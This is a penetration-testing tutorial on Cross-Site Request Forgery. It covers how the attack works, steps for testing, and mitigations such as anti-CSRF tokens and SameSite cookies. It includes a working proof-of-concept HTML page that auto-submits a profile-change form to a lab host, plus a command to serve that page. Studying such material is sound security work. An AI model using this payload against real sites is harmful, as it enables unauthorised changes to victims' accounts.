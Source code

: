 # Cross-Site Request Forgery (CSRF or XSRF)

Cross-Site Request Forgery (CSRF) is a significant security threat that allows attackers to perform actions on behalf of authenticated users without their consent. Understanding how to identify and exploit CSRF vulnerabilities is essential for penetration testers to help secure web applications.

***

#### 🔍 Understanding CSRF Attacks

CSRF attacks exploit the trust that a web application has in the user's browser. When a user is authenticated, an attacker can craft a malicious web page that sends requests to the application, leveraging the user's session. This can lead to unauthorized actions, such as changing account details or accessing sensitive information.

**Key Characteristics of CSRF Vulnerabilities:**

* **Lack of Anti-CSRF Mechanisms**: Many applications do not implement adequate protections against CSRF.
* **Session Management**: Applications relying solely on HTTP cookies for session management are particularly vulnerable.

***

#### 🧪 Testing for CSRF Vulnerabilities

To test for CSRF vulnerabilities, follow these steps:

1. **Identify Target Actions**: Look for actions that change the state on the server, such as updating user profiles or changing passwords.
2. **Check for Anti-CSRF Tokens**: Use tools like Burp Suite to intercept requests and check if anti-CSRF tokens are present. If they are missing, the application may be vulnerable.
3.  **Craft a Malicious Web Page**: Create an HTML page that submits a request to the target application. Here’s an example of a CSRF attack page:

    {% code overflow="wrap" %}
    ```html
    <html>
      <body>
        <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
          <input type="hidden" name="email" value="attacker@htb.net" />
          <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
          <input type="hidden" name="country" value="CSRF_POC" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          document.getElementById("submitMe").submit()
        </script>
      </body>
    </html>
    ```
    {% endcode %}
4.  **Serve the Malicious Page**: Use a simple HTTP server to host the malicious page. For example, you can run:

    ```bash
    python -m http.server 1337
    ```
5. **Simulate the Attack**: While logged into the target application, open a new tab and navigate to the URL of the malicious page. This will trigger the CSRF attack, changing the victim's profile details without their knowledge.

***

#### 📜 Example of a CSRF Attack

1. **Login to the Target Application**: Use valid credentials to log in to the application.
2. **Intercept Requests**: Use Burp Suite to monitor requests and confirm the absence of anti-CSRF tokens.
3. **Execute the Attack**: Open the crafted malicious page while still logged in. The profile details will change to those specified in the HTML form.

***

#### 🔒 Mitigating CSRF Vulnerabilities

To protect against CSRF attacks, web applications should implement the following measures:

* **Anti-CSRF Tokens**: Include unique tokens in forms that must be validated on the server side.
* **SameSite Cookie Attribute**: Use the SameSite attribute for cookies to restrict how they are sent with cross-origin requests.
* **User Confirmation**: Require user confirmation for sensitive actions, such as changing account settings.

***

#### 🌐 Resources for Further Learning

* [OWASP CSRF Prevention Cheat Sheet](https://owasp.org/www-community/attacks/csrf)
* [PortSwigger Web Security Academy](https://portswigger.net/web-security/cross-site-request-forgery)
* [Mozilla Developer Network on Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)

By understanding and testing for CSRF vulnerabilities, penetration testers can help organizations strengthen their defenses against this common attack vector.
